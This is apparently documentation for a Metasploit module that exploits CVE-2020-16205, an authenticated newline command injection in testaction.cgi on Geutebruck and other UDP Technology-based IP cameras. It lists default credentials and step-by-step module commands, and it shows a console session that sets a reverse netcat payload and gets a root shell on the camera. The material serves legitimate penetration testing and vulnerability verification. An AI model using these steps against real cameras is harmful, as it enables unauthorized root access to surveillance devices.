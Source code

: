 ## Vulnerable Application

The following [Geutebruck](https://www.geutebrueck.com) products using firmware versions <= 1.12.0.25,
firmware version 1.12.13.2 or firmware version 1.12.14.5:
* Encoder and E2 Series Camera models:
  * G-Code:
    * EEC-2xxx
  * G-Cam:
    * EBC-21xx
    * EFD-22xx
    * ETHC-22xx
    * EWPC-22xx

Many brands use the same firmware:
  * UDP Technology (which is also the supplier of the firmware for the other vendors)
  * Ganz
  * Visualint
  * Cap
  * THRIVE Intelligence
  * Sophus
  * VCA
  * TripCorps
  * Sprinx Technologies
  * Smartec
  * Riva

This module has been tested on a Geutebruck 5.02024 G-Cam EFD-2250 running firmware version 1.12.14.5.

### Description

This module exploits an authenticated OS command injection vulnerability (CVE-2020-16205) within the
`server` GET parameter of /uapi-cgi/admin/testaction.cgi when the `type` parameter is set to `ntp`.
This issue occurs due to a lack of validation on the `server` parameter, which allows an attacker to
inject a new line character, followed by the command they wish to execute, at which point the server will
then interpret the new string as a separate command to be executed. Successful exploitation will result in
remote code execution as the `root` user.

Users can find additional details of this vulnerability on the advisory page at https://us-cert.cisa.gov/ics/advisories/icsa-20-219-03.

## Verification Steps

  1. Start the camera using default configuration
  2. Launch msfconsole
  3. Do: `use exploit/linux/http/geutebruck_testaction_exec`
  4. Do: `set httpusername <camera_username>`
  5. Do: `set httppassword <camera_password>`
  6. Do: `set lhost <metasploit_ip>`
  5. Do: `set rhosts <camera_ip>`
  6. Do: `set payload cmd/unix/reverse_netcat_gaping`
  7. Do: `check` to be sure the target is vulnerable
  8. Do: `exploit`
  9. You should get a shell

## Options

The default credentials to log on the web interface are root/admin.

 ### HTTPUSERNAME
 A username used to authenticate on the admin page. **Default: root**

 ### HTTPPASSWORD
The password of the username used to authenticate on the admin page. **Default: admin**

## Scenarios
### Geutebruck 5.02024 G-Cam EFD-2250 running firmware version 1.12.14.5.
```
msf5 > use exploit/linux/http/geutebruck_testaction_exec
msf5 exploit(linux/http/geutebruck_testaction_exec) > set payload cmd/unix/reverse_netcat_gaping
payload => cmd/unix/reverse_netcat_gaping
msf5 exploit(linux/http/geutebruck_testaction_exec) > set httpusername root
httpusername => root
msf5 exploit(linux/http/geutebruck_testaction_exec) > set httppassword admin
httppassword => admin
msf5 exploit(linux/http/geutebruck_testaction_exec) > set lhost 192.168.14.1
lhost => 192.168.14.1
msf5 exploit(linux/http/geutebruck_testaction_exec) > set rhosts 192.168.14.58
rhosts => 192.168.14.58
msf5 exploit(linux/http/geutebruck_testaction_exec) > exploit

[*] Started reverse TCP handler on 192.168.14.1:4444
[*] 192.168.14.58:80 - Attempting to exploit...
[*] Command shell session 3 opened (192.168.14.1:4444 -> 192.168.14.58:43392) at 2020-04-02 18:26:28 +0200
pwd

/tmp/www_ramdisk/uapi-cgi/admin
id
uid=0(root) gid=0(root)
uname -a
Linux EFD-2250 2.6.18_IPNX_PRODUCT_1.1.2-ge52275bd #1 PREEMPT Thu Jul 25 20:25:39 KST 2019 armv5tejl GNU/Linux
```
